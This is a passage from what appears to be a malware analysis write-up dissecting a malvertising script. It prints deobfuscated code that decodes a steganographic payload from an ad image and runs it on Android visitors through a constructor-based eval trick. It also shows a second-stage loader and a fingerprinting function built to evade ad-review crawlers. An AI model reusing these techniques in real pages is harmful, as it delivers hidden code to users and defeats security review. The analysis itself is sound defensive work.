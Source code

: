 After the `b` function, there are three functions which seem to be anti-debugger, since they cause infinite loops and replace `console` functions. Finally, after replacing all the `b` calls, we come to the final part of the `metrics.js` script:

```js
var s = 'constructor';
var t = document['getElementById']('adimg');
t['onload'] = function() {
  try {
    var u = steg['decode'](t);
  } catch (v) {}
  if (Number(/android/i ['test'](navigator['userAgent']))) {
    s[s][s](u)();
  }
};
```

The `s[s][s]` bit is basically `eval`:

```js
>>> s
"constructor"
>>> s[s]
ƒ String() { [native code] }
>>> s[s][s]
ƒ Function() { [native code] }
```

`u`, the result of the steganography decoding of the `adimg` picture is executed if `android` is found in the visitor's `User-Agent` string. The result of the decoding is (with minor formatting adjustments):

```js
var dJs = document.createElement('script');
dJs.setAttribute('src','./src/uHsdvEHFDwljZFhPyKxp.js');
document.head.appendChild(dJs);
```

### Stage 2

We can run [the linked file](files/malvertising3.js) through the beautifier once again to get something [nicer](files/malvertising3-b.js). In this file, we have a set of functions in the `T` object, some polyfills for `String`, and then:

```js
function dJw() {
  try {
    return navigator.platform.toUpperCase().substr(0, 5)
    + Number(/android/i.test(navigator.userAgent))
    + Number(/AdsBot/i.test(navigator.userAgent))
    + Number(/Google/i.test(navigator.userAgent))
    + Number(/geoedge/i.test(navigator.userAgent))
    + Number(/tmt/i.test(navigator.userAgent))
    + navigator.language.toUpperCase().substr(0, 2)
    + Number(/tpc.googlesyndication.com/i.test(document.referrer) || /doubleclick.net/i.test(document.referrer))
    + Number(/geoedge/i.test(document.referrer))
    + Number(/tmt/i.test(document.referrer))
    + performance.navigation.type
    + performance.navigation.redirectCount
    + Number(navigator.cookieEnabled)
    + Number(navigator.onLine)
    + navigator.appCodeName.toUpperCase().substr(0, 7)
    + Number(navigator.maxTouchPoints > 0)
    + Number((undefined == window.chrome) ? true : (undefined == window.chrome.app))
    + navigator.plugins.length
  } catch (e) {
    return 'err'
```